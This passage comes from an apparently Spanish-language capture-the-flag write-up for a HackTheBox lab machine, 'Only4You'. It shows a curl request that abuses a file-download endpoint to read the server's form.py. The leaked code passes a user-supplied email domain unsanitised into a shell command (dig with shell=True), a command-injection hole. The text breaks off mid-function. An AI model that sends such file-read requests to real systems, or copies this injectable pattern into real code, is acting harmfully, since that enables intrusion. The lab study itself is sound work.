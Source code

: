 Me traigo el ```form.py```

```null
curl -s -X POST http://beta.only4you.htb/download -d 'image=/var/www/only4you.htb/form.py'
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
		output = result.stdout.decode('utf-8')
		if "v=spf1" not in output:
			return 1
		else:
			domains = []
			ips = []
			if "include:" in output:
				dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
				dms.pop(0)
				for domain in dms:
					domains.append(domain)
				while True:
					for domain in domains:
						result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
						output = result.stdout.decode('utf-8')
						if "include:" in output:
							dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
							domains.clear()
							for domain in dms:
								domains.append(domain)
						elif "ip4:" in output:
							ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
							ipaddresses.pop(0)
							for i in ipaddresses:
								ips.append(i)
						else:
							pass
					break
			elif "ip4" in output:
				ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
				ipaddresses.pop(0)
				for i in ipaddresses:
					ips.append(i)
			else:
				return 1
		for i in ips:
			if ip == i:
				return 2
			elif ipaddress.ip_address(ip) in ipaddress.ip_network(i):
				return 2
			else:
				return 1

def sendmessage(email, subject, message, ip):
	status = issecure(email, ip)
	if status == 2:
```
